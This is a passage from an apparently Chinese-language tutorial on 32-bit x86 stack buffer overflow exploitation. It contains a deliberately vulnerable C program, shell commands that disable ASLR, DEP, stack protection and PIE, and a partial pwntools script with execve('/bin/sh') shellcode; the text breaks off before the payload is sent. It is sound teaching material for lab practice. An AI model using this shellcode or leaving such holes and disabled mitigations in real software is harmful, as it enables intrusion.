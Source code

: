 ```c
#include <unistd.h>
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
## 2.2. 设置coredump
可以防止GDB调试环境下地址与实际运行环境下地址不同的情况。
```bash
# 开启coredump
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
# 调试coredump文件，第一个xxx为可执行文件名，第二个xxx为coredump文件名
gdb xxx /tmp/core.xxx
```
## 2.3. 解除安全措施的方法
* GCC编译选项：`-fno-stack-protector`，用于关闭栈保护
* GCC编译选项：`-z execstack`，用于关闭DEP
* shell指令：`echo 0 > /proc/sys/kernel/randomize_va_space`，用于关闭ASLR，设置为2为启用ASLR
* GCC编译选项：`-no-pie`，用于关闭PIE（程序基址版本的ASLR）
## 2.4. SOCAT
`socat TCP4-LISTEN:10001,fork EXEC:./level1`，SOCAT可以将目标程序作为一个服务绑定到服务器的某个端口上
## 2.5. 32位库
如果要在64位环境下调试32位程序，需要安装32位相关的库函数：
```bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install zlib1g:i386 libstdc++6:i386 libc6:i386
# 如果是比较老的版本，可以用下面的命令
sudo apt-get install ia32-libs
# gcc编译32位程序
gcc -m32 1.c
```
# 3. X86
```python
# encoding:utf-8
from pwn import *
p = process('./level1') 
# 返回地址，通过调试确定栈中地址
ret = 0xbffff290
# 通过自编译生成shellcode，也可以通过msf生成，21字节的shellcode
# shellcode最后的功能相当于execve ("/bin/sh") 
# xor ecx, ecx      ;清零ecx
# mul ecx           ;ecx*eax，清零eax和edx
# push ecx          ;压栈0
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp      ;ebx指向/bin//sh，为参数
# mov al, 11        ;系统调用
# int 0x80
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
# 对ret进行编码，将地址转换成内存中的二进制存储形式；p32(ret) == struct.pack("<I",ret) 
```